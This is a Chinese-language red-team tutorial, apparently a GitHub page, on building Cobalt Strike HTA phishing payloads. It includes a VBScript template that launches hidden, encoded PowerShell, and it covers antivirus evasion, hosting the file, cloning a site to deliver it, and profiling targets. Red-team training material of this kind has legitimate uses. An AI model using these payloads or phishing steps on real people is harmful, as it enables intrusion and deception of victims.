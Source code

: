 # 0x00 简介
HTA是HTML Application的缩写（HTML应用程序），是软件开发的新概念，直接将HTML保存成HTA的格式，就是一个独立的应用软件

# 0x01 HTML Application生成

>生成方式 Attack>Packages>HTML Application

这里他给我们提供了3种生成方式 exe,powershell,vba。其中VBA方法需要目标系统上的Microsoft Office，在系统支持的情况下我们一般选择powershell，因为这种方式更加容易免杀。通常我们结合host File(文件下载功能) 来实行钓鱼。
![Cobalt Strike ](./img/5.1.png)
这里我们选择 powershell 生成 一个HTA

```
<script language="VBScript">
	Function var_func()
		Dim var_shell
		Set var_shell = CreateObject("Wscript.Shell")
		var_shell.run "powershell -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZ", 0, true
	End Function

	var_func
	self.close
</script>
```
可以看到其实就是一个 powershell命令 所以我们免杀做起来想多简单一点。


# 0x02 HTML Application利用

* ## Host file

这里我们利用CS的 host file功能 来联动一下
![Cobalt Strike ](./img/5.2.png)

生成后的连接 发给目标打开（怎么让目标打开也是一门艺术）  注意的是这里生成后你改了本地的evil.hta文件他不会自动更新 需要点击Attack>Web Drive-by>Manage 把这个服务kill掉然后从新生成。

![Cobalt Strike ](./img/5.3.png)
目标点击后上线， 这里我就不演示其他2种了基本用不到。



* ## Clone site

CS还是非常贴心的给我们准备一个功能 网站克隆 ，在我们了解到内网其他网站时还是非常有用的。
>使用  Attack>Web Drive-by>Clone Site

![Cobalt Strike ](./img/5.4.png)
我这里就直接克隆个百度，然后attack 点击就可以加载 我们刚刚在host file里面的文件 很方便。

![Cobalt Strike ](./img/5.5.png)

目标用户显示

# 0x04 System Profiler 信息收集
讲到钓鱼 不得不讲下System Profiler这个功能 他能收集一下用户的信息然后重定向，这个有利于我们判断目标环境然后，准备我们的payload，当然也可以自己写JavaScript。

>使用 Attack>Web Drive-by >System Profiler 

![Cobalt Strike ](./img/5.6.png)

然后 发送给目标 然后我们在菜单栏 View>Applications 可以看到我们成功获取的各种信息
![Cobalt Strike ](./img/5.7.png)

# 0x05 文末

在内网中钓鱼有时候是很有效的，但是也是很容易暴露的一种，钓鱼最好测试好各种payload，这东西发出去就没后悔药了，当然有0day就更好了（用时2小时）

### 本文如有错误，请及时提醒，以免误导他人

